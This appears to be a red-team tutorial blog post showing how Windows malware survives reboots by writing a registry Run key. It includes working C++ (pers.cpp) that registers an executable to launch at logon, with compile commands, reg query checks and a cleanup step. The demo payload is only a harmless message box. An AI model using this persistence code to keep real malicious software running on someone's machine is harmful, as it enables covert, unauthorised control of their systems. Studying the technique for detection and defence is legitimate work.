 ```yaml
---
title:  "Malware development: persistence - part 1. Registry run keys. C++ example."
date:   2022-04-20 10:00:00 +0600
header:
  teaser: "/assets/images/51/2022-04-20_09-43.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/51/2022-04-20_09-43.png){:class="img-responsive"}    

This post starts a series of articles on windows malware persistence techniques and tricks.    

Today I'll write about the result of my own research into the "classic" persistence trick: startup folder registry keys.    

### run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-57.png){:class="img-responsive"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-58.png){:class="img-responsive"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-59.png){:class="img-responsive"}    

> Please note that this suggests to another trick to anti-VM (VirtualBox)    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-59_1.png){:class="img-responsive"}    

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-08.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-20-malware-pers-1\`:    

![pers](/assets/images/51/2022-04-20_19-10.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
pers.cpp
windows low level persistense via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-20.png){:class="img-responsive"}    

Then, first of all, check registry keys in the victim's machine:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-35.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-39.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again:    

![pers](/assets/images/51/2022-04-20_09-40.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-40_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-44.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "hack"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-46.png){:class="img-responsive"}    

### windows 11

This trick is also work on `Windows 11`:

![pers](/assets/images/51/2022-04-21_10-29.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30_2.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-31.png){:class="img-responsive"}    

And cleanup:

![pers](/assets/images/51/2022-04-21_10-32.png){:class="img-responsive"}    

### conclusion

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
